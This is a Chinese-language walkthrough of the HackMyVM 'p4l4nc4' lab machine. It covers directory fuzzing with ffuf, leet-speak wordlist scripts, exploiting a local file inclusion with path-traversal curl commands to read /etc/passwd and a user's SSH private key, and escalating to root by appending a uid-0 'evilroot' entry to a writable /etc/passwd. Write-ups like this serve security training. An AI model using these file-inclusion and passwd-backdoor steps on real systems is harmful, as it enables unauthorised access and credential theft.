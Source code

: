 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶机/hackmyvm_p4l4nc4.md","permalink":"/安全/靶机/hackmyvm_p4l4nc4/","title":"hackmyvm_p4l4nc4"}
---
```


# 主机发现

![Pasted image 20250127212614.png](/img/user/picture/Pasted%20image%2020250127212614.png)



# web渗透

目录扫描：
![Pasted image 20250127213912.png](/img/user/picture/Pasted%20image%2020250127213912.png)


主页就是apache的初始页面
![Pasted image 20250127213943.png](/img/user/picture/Pasted%20image%2020250127213943.png)


但这个`/robots.txt`页面很奇怪
![Pasted image 20250127214028.png](/img/user/picture/Pasted%20image%2020250127214028.png)
乍一看是乱码
但是将他简单转码之后：
```shell
curl -s http://192.168.124.9/robots.txt | iconv -f utf-8 -t latin1
```

```txt
A palanca-negra-gigante é uma subespécie de palanca-negra. De todas as subespécies, esta destaca-se pelo grande tamanho, sendo um dos ungulados africanos mais raros. Esta subespécie é endémica de Angola, apenas existindo em dois locais, o Parque Nacional de Cangandala e a Reserva Natural Integral de Luando. Em 2002, após a Guerra Civil Angolana, pouco se conhecia sobre a sobrevivência de múltiplas espécies em Angola e, de facto, receava-se que a Palanca Negra Gigante tivesse desaparecido. Em janeiro de 2004, um grupo do Centro de Estudos e Investigação Científica da Universidade Católica de Angola, liderado pelo Dr. Pedro vaz Pinto, obteve as primeiras evidências fotográficas do único rebanho que restava no Parque Nacional de Cangandala, ao sul de Malanje, confirmando-se assim a persistência da população após um duro período de guerra. Atualmente, a Palanca Negra Gigante é considerada como o símbolo nacional de Angola, sendo motivo de orgulho para o povo angolano. Como prova disso, a seleção de futebol angolana é denominada de palancas-negras e a companhia aérea angolana, TAAG, tem este antílope como símbolo. Palanca é também o nome de uma das subdivisões da cidade de Luanda, capital de Angola. Na mitologia africana, assim como outros antílopes, eles simbolizam vivacidade, velocidade, beleza e nitidez visual
```

是一段看不懂的语言
经翻译：
![Pasted image 20250127214148.png](/img/user/picture/Pasted%20image%2020250127214148.png)

~~说实话我到这里就卡住了，不知道之后该怎么办了~~
~~看了大佬的解答，才发现是通过这个文件去生成一个字典文件然后再去进行目录扫描。。。~~
~~很神奇，不知道这个思路是怎么来的，感觉就是纯纯出题人脑洞~~
~~就借助这个靶场练习一下一些基础工具的使用吧~~

## ffuf模糊测试

[[blog/安全/工具/ffuf\|ffuf]]

先简单扫一下：
```shell
ffuf -u http://192.168.124.9/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt    -e .php,.html,.txt,.zip,.js -c -v
```
其实这一步和目录扫描没什么区别
![Pasted image 20250128164234.png](/img/user/picture/Pasted%20image%2020250128164234.png)
也能扫出来`robots.txt`

现在有用信息就是这文件，所以考虑一下怎么利用这个文件
可以利用这个文件去生成一个字典
[[blog/安全/工具/cewl\|cewl]]
```shell
cewl http://192.168.124.9/robots.txt  -w wordlist1
```

现在还需要将字典文件做一个修改，那就是进行1337(leet)格式转化
https://en.wikipedia.org/wiki/Leet
其实这个提示就在靶场的名称上(p4l4nc4)
![Pasted image 20250128165128.png](/img/user/picture/Pasted%20image%2020250128165128.png)


```leet_converter.sh
#!/bin/bash

# leet_converter.sh - 将文本按Leet Speak规则转换
# 用法: ./leet_converter.sh <输入文件> <输出文件>

# 检查参数
if [ $# -ne 2 ]; then
    echo "错误：需要两个参数"
    echo "用法: $0 <输入文件> <输出文件>"
    exit 1
fi

input_file="$1"
output_file="$2"

# 检查输入文件是否存在
if [ ! -f "$input_file" ]; then
    echo "错误：输入文件 $input_file 不存在"
    exit 1
fi

# 定义替换规则（可自定义修改）
# 格式：'s/原字符/替换字符/gi' 
# g=全局替换，i=忽略大小写
leet_rules=(
    's/a/4/gi'      # A → 4
    's/e/3/gi'      # E → 3
    's/i/1/gi'      # I → 1
    's/o/0/gi'      # O → 0
    's/s/5/gi'      # S → 5
    's/t/7/gi'      # T → 7
    's/g/6/gi'      # G → 6
    's/z/2/gi'      # Z → 2
    's/b/8/gi'      # B → 8
)

# 执行转换并保存结果
sed -f <(
    for rule in "${leet_rules[@]}"; do
        echo "$rule"
    done
) "$input_file" > "$output_file"

echo "转换完成！结果已保存到 $output_file"
```

但是经过这个脚本转化后依旧扫不出来隐藏目录，我看了看大佬题解，发现字母`g`不需要变化。。。
![Pasted image 20250128170657.png](/img/user/picture/Pasted%20image%2020250128170657.png)
说实话这我就不是很懂了

所以我们冲着字典多样性的方向再去修改一下脚本
```python
#!/usr/bin/env python3
import itertools
import sys

# 定义Leet替换规则（可扩展为多个选项）
LEET_MAP = {
    'a': ['4'],
    'e': ['3'],
    'i': ['1'],
    'l': ['1'],
    'o': ['0'],
    's': ['5'],
    't': ['7'],
    'g': ['6'],
    'z': ['2'],
    'b': ['8'],
    # 可添加更多规则，例如'l': ['1', '7']
}

def generate_variants(word):
    # 为每个字符生成可能的选项
    char_options = []
    for c in word.lower():  # 统一处理为小写，如需保留大小写需调整
        if c in LEET_MAP:
            # 原始字符 + 所有替换选项
            options = [c] + LEET_MAP[c]
        else:
            options = [c]
        char_options.append(options)
    
    # 生成所有组合
    return [''.join(combo) for combo in itertools.product(*char_options)]

def process_file(input_path, output_path):
    seen = set()
    with open(input_path, 'r') as f_in, open(output_path, 'w') as f_out:
        for line in f_in:
            original = line.strip()
            if not original:
                continue
            
            # 生成所有可能的组合
            for variant in generate_variants(original):
                if variant not in seen:
                    seen.add(variant)
                    f_out.write(variant + '\n')

if __name__ == '__main__':
    if len(sys.argv) != 3:
        print(f"用法: {sys.argv[0]} <输入文件> <输出文件>")
        sys.exit(1)
    
    process_file(sys.argv[1], sys.argv[2])
    print(f"字典生成完成！结果保存在 {sys.argv[2]}")
```

![Pasted image 20250128171027.png](/img/user/picture/Pasted%20image%2020250128171027.png)
现在就扫出来了那个隐藏目录

![Pasted image 20250128171443.png](/img/user/picture/Pasted%20image%2020250128171443.png)
文件也扫出来了

```txt
http://192.168.124.9/n3gr4/m414nj3.php
```


再进行参数的模糊测试
```shell
ffuf -u http://192.168.124.9/n3gr4/m414nj3.php\?FUZZ\=FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -v -fc 500
```
![Pasted image 20250128171848.png](/img/user/picture/Pasted%20image%2020250128171848.png)
这个文件从参数`page`可以推测可能存在文件包含，试一下
```shell
curl http://192.168.124.9/n3gr4/m414nj3.php\?page\=../../../../../../../etc/passwd
```
![Pasted image 20250128172119.png](/img/user/picture/Pasted%20image%2020250128172119.png)

现在知道有一个用户
```txt
p4l4nc4
```

```shell
 curl http://192.168.124.9/n3gr4/m414nj3.php\?page\=../../../../../../../home/p4l4nc4/.ssh/id_rsa > rsa
```


![Pasted image 20250128185240.png](/img/user/picture/Pasted%20image%2020250128185240.png)

得到密码
```txt
friendster
```

# 提权

用脚本扫一下
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
![Pasted image 20250128193339.png](/img/user/picture/Pasted%20image%2020250128193339.png)
发现`/etc/passwd`文件可写

其实在他的历史里面就给了提示
```shell
cat /home/p4l4nc4/.bash_history
```

![Pasted image 20250128193542.png](/img/user/picture/Pasted%20image%2020250128193542.png)

那么我们可以增加一个特权用户
首先构造一个密码
```shell
> openssl passwd -1 -salt abc 1
$1$abc$mxBQevJT9zt/6fNQJ52EC1
```


```txt
evilroot:$1$abc$mxBQevJT9zt/6fNQJ52EC1:0:0::/root:/bin/bash
```

![Pasted image 20250128195311.png](/img/user/picture/Pasted%20image%2020250128195311.png)

其实经测试，只要把p4l4nc4用户suid和guid改掉也可以
![Pasted image 20250128195708.png](/img/user/picture/Pasted%20image%2020250128195708.png)

也可以将root密码删掉，也就是去掉那个`x`
![Pasted image 20250128195807.png](/img/user/picture/Pasted%20image%2020250128195807.png)











